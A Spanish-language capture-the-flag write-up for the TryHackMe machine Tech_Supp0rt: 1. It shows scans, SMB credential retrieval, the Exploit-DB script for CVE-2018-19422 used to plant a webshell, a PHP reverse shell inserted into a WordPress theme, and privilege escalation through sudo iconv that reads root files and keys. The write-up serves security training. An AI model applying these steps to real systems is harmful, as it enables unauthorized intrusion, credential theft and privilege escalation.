<div align="center">
    
</div>

<div align="center">

# Tech_Supp0rt: 1 <!-- omit in toc -->
<!-- Fácil-#228B06 | Media-#BFA907 | Difícil-#A62100 -->


</div>

<br>

<div align="center">

| | |
|---|---|
| **Tags** | [ **Remote Command Execution - RCE**, **CVE-2018-19422** ] |

</div>

## Índice  <!-- omit in toc -->

- [Escaneos](#escaneos)
- [Investigando servicios disponibles](#investigando-servicios-disponibles)
- [Shell con www-data](#shell-con-www-data)
- [Flag root.txt](#flag-roottxt)


### Escaneos

```shell
nmap -p- --open -sS --min-rate 5000 -Pn -n -vvv 10.113.143.15 -oG target.log
```

```log
# Nmap 7.95 scan initiated Sat Nov  7 12:13:29 2026 as: nmap -p- --open -sS --min-rate 5000 -Pn -n -vvv -oG target.log 10.113.143.15
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.113.143.15 ()	Status: Up
Host: 10.113.143.15 ()	Ports: 22/open/tcp//ssh///, 80/open/tcp//http///, 139/open/tcp//netbios-ssn///, 445/open/tcp//microsoft-ds///	Ignored State: closed (65531)
# Nmap done at Sat Nov  7 12:13:42 2026 -- 1 IP address (1 host up) scanned in 13.84 seconds
```

```shell
nmap -p22,80,139,445 -sV -sC 10.113.143.15 -oG openPorts.log
```

```log
# Nmap 7.95 scan initiated Sat Nov  7 12:13:57 2026 as: nmap -p22,80,139,445 -sV -sC -oN openPorts.log 10.113.143.15
Nmap scan report for techsupport.thm (10.113.143.15)
Host is up (0.095s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 10:8a:f5:72:d7:f9:7e:14:a5:c5:4f:9e:97:8b:3d:58 (RSA)
|   256 7f:10:f5:57:41:3c:71:db:b5:5b:db:75:c9:76:30:5c (ECDSA)
|_  256 6b:4c:23:50:6f:36:00:7c:a6:7c:11:73:c1:a8:60:0c (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: TECHSUPPORT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: -1h50m00s, deviation: 3h10m29s, median: -1s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: techsupport
|   NetBIOS computer name: TECHSUPPORT\x00
|   Domain name: \x00
|   FQDN: techsupport
|_  System time: 2026-11-07T16:44:10+05:30
| smb2-time: 
|   date: 2026-11-07T11:14:08
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov  7 12:14:14 2026 -- 1 IP address (1 host up) scanned in 17.73 seconds

```

<br><br>

### Investigando servicios disponibles

Al ingresar por el puerto `80` servicio web HTTP, encontramos la página de inicio de **Apache 2.4.18** así que hacemos un escaneo con `ffuf` para buscar rutas alternas y encontramos dos adicionales `/wordpress/` y `/test/`, en la ruta de `/test/` hay muchos errores y "*pop-ups*" (normalmente están hechos así para el reto, lo aclaran en la página del reto en TryHackMe) por lo cual rebuscaremos un poco antes en la ruta de `/wordpress/`.

```shell
❯ ffuf -u 'http://techsupport.thm/FUZZ' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -ic

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://techsupport.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

wordpress               [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 80ms]
test                    [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 79ms]
```

<br><br>

<div align="center">
    
    <br>
    <em>Ruta '/wordpress/'</em>
    <br><br>
    
    <br>
    <em>Ruta '/test/'</em>
</div>

<br><br>

Antes de adentrarnos a una investigación mas profunda de esas rutas (sobre todo la de wordpress) listamos el servicio `SMB` por el puerto 139 y encontraremos un archivo `.txt` muy importante que contiene credenciales, luego con la contraseña podemos usar la "formula mágica" para decodificar la contraseña y la obtendremos

```shell
❯ smbclient -L //10.113.143.15/websvr -p 139 -N

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	websvr          Disk      
	IPC$            IPC       IPC Service (TechSupport server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            
❯ smbclient //10.113.143.15/websvr -p 139 -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat May 29 09:17:38 2021
  ..                                  D        0  Sat May 29 09:03:47 2021
  enter.txt                           N      273  Sat May 29 09:17:38 2021

		8460484 blocks of size 1024. 5472260 blocks available
smb: \> get enter.txt
getting file \enter.txt of size 273 as enter.txt (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
```

<br><br>

<div align="center">
    
    <br>
    <em>Archivo 'enter.txt' encontrado en servicio SMB</em>
    <br><br>
    
    <br>
    <em>Contraseña decodificada con la 'fórmula mágica'</em>
</div>

<br><br>

Entonces ya que hemos encontrado una ruta que antes no aparecía `/subrion` intentamos acceder a ella pero los tiempos de carga son muy extensos y nos redirige a otra IP fuera del alcance. Así que en este caso se solicita directamente algún recurso del servidor para que tome correctamente la solicitud, si hacemos un escaneo con `ffuf` encontraremos algunas rutas útiles

```shell
❯ curl -I 'http://techsupport.thm/subrion' --connect-timeout 10 -L
HTTP/1.1 301 Moved Permanently
Date: Sat, 07 Nov 2026 15:50:08 GMT
Server: Apache/2.4.18 (Ubuntu)
Location: http://techsupport.thm/subrion/
Content-Type: text/html; charset=iso-8859-1

HTTP/1.1 302 Found
Date: Sat, 07 Nov 2026 15:50:08 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: INTELLI_06c8042c3d=9ji64s89c6c4r76uv95eh7qo8d; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: INTELLI_06c8042c3d=9ji64s89c6c4r76uv95eh7qo8d; expires=Sat, 07-Nov-2026 16:20:08 GMT; Max-Age=1800; path=/
Location: http://10.0.2.15/subrion/subrion/
Content-Type: text/html; charset=UTF-8

curl: (28) Connection timed out after 10001 milliseconds
```

<br><br>

```shell
❯ ffuf -u 'http://techsupport.thm/subrion/FUZZ' -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 200 -ic -mc 200 -e .html,.txt,.php -o subrion-routes.md -of md

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://techsupport.thm/subrion/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 :: Extensions       : .html .txt .php 
 :: Output file      : subrion-routes.md
 :: File format      : md
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200
________________________________________________

license.txt             [Status: 200, Size: 35147, Words: 5836, Lines: 675, Duration: 74ms]
changelog.txt           [Status: 200, Size: 49250, Words: 10094, Lines: 913, Duration: 133ms]
robots.txt              [Status: 200, Size: 142, Words: 9, Lines: 8, Duration: 97ms]
panel.txt               [Status: 200, Size: 6275, Words: 1618, Lines: 107, Duration: 1046ms]
panel.html              [Status: 200, Size: 6275, Words: 1618, Lines: 107, Duration: 1046ms]
panel.php               [Status: 200, Size: 6275, Words: 1618, Lines: 107, Duration: 1046ms]
:: Progress: [350604/350604] :: Job [1/1] :: 172 req/sec :: Duration: [0:05:35] :: Errors: 0 ::
```

<br><br>

Dadas las rutas que encontramos, podemos ver por el `license.txt` que esto pertenece a alguna organización, además `panel.html` contiene un formulario de admin (del cual ya tenemos credenciales), un poco de teoría:

> Subrion (o Subrion CMS) es un sistema de gestión de contenidos (CMS) de código abierto y gratuito, desarrollado en PHP y MySQL

<br><br>

<div align="center">
    
    <br>
    <em>Panel de inicio de sesión - Login</em>
    <br><br>
    
    <br>
    <em>Dashboard del CMS</em>
</div>

<br><br>

### Shell con www-data

Tras buscar un poco por la página y en internet sobre posibles vulnerabilidades encontramos que existe un CVE para esta versión de **Subrion** y hay exploit en **Exploit-DB**

> [!TIP]
> https://www.cve.org/CVERecord?id=CVE-2018-19422
> 
> https://www.exploit-db.com/exploits/49876

<br><br>

```shell
❯ searchsploit Subrion
# ...
Subrion CMS 4.2.1 - Arbitrary File Upload                                                                                                                 | php/webapps/49876.py
# ...

❯ searchsploit -m 49876
  Exploit: Subrion CMS 4.2.1 - Arbitrary File Upload
      URL: https://www.exploit-db.com/exploits/49876
     Path: /usr/share/exploitdb/exploits/php/webapps/49876.py
    Codes: CVE-2018-19422
 Verified: False
File Type: Python script, ASCII text executable, with very long lines (956)
Copied to: /home/hellhound/Desktop/TechSupport/49876.py
```

<br><br>

Lo ejecutamos con los parámetros correspondientes y obtenemos una **Web Shell** con **RCE**

```shell
❯ python3 49876.py -u http://techsupport.thm/subrion/panel/ --user=admin --passw=[REDACTED]
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

[+] Trying to connect to: http://techsupport.thm/subrion/panel/
[+] Success!
[+] Got CSRF token: slzLg4teBqOnPc4ujTRGNDIKSYl1RNeEEsB9t3Ak
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: ldxodckymkvfuzd

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://techsupport.thm/subrion/panel/uploads/ldxodckymkvfuzd.phar 

$ whoami
www-data
```

<br><br>

Estando acá, busco un poco por el sistema y encontramos en el directorio de `/wordpress/` las credenciales en `wp-config.php`

<div align="center">
    
    <br>
    <em>Credenciales del usuario de 'wordpress'</em>
</div>

<br><br>

Ahora con las credenciales encotradas anteriormente podemos acceder en Wordpress. Tras acceder podemos dirigirnos a la sección de "**Appearance**" > "**Themes Editor**" y seleccionar el tema "**Twenty Twenty**" y alterar su código fuente. Para esto usaremos una web-shell que hay incluida en sistemas **Parrot Security**/**Kali** en la ruta `/usr/share/webshells/php/php-reverse-shell.php`

> [!TIP]
> Una buena forma de saber cual tema podemos editar su código fuente es haciendo pruebas con simples comentarios (`/* Hello World */`) y guardando. Cuando alguno acepte, allí podemos editar.

<br>

<div align="center">
    
    <br>
    <em>Dashboard de 'wordpress'</em>
    <br><br>
    
    <br>
    <em>Editando tema 'Twenty Twenty' - Recurso '404.php'</em>
    <br><br>
    
    <br>
    <em>php-reverse-shell.php</em>
    <br><br>
    
    <br>
    <em>Cambiando código fuente</em>
    <br><br>
</div>

<br><br>

Ahora que está cargada la shell reverse tenemos que activar el tema "**Twenty Twenty**" y luego hacer una solicitud a cualquier archivo que no exista para que carge el archivo `404.php`, recuerden tener el puerto correspondiente a la escucha.

<div align="center">
    
    <br>
    <em>Activando el tema 'Twenty Twenty'</em>
    <br><br>
    
    <br>
    <em>Shell Reverse</em>
</div>

<br><br>

Listamos usuarios y encontramos solo dos: **root** y **scamsite**. Tras buscar por el sistema y no encontrar mucho, simplemente bastó intentar la contraseña encontrada en el archivo `wp-config.php` con el usuario **scamsite** y funcionó...

```shell
www-data@TechSupport:/tmp$ grep -i '/bin/.*sh' /etc/passwd
root:x:0:0:root:/root:/bin/bash
scamsite:x:1000:1000:scammer,,,:/home/scamsite:/bin/bash
```

<br>

```shell
www-data@TechSupport:/tmp$ su scamsite
Password: 
scamsite@TechSupport:/tmp$ whoami;id;groups
scamsite
uid=1000(scamsite) gid=1000(scamsite) groups=1000(scamsite),113(sambashare)
scamsite sambashare
```

<br>

> [!IMPORTANT]
> En este punto he creado persistencia generando un par de llaves RSA para ingresar por el servicio **SSH**

<br><br>

### Flag root.txt

Una vez ingresamos, listamos nuestros permisos con `sudo -l` y encontramos que podemos ejecutar el binario `iconv` sin contraseña `(NOPASSWD)`, así que apuntamos directamente al flag de **root** en `/root/root.txt` y encontramos el flag

<br>

> [!IMPORTANT]
> Si, el comando que usé es un poco extraño, quise asegurarme de obtener el flag con un payload de [GTFOBins](https://gtfobins.org/gtfobins/iconv/)
> 
> **Adicional**: Si quieren escalar privilegios pueden hacer: `sudo iconv /root/.ssh/id_rsa` y entrar por el servicio SSH con **root**

<br>

<div align="center">
    
    <br>
    <em>Flag en '/root/root.txt'</em>
</div>

<br><br>

---

<div align="center">

**HellHound DevSecOps**<br>
*Ciberseguridad, Análisis de Sistemas & Reports*

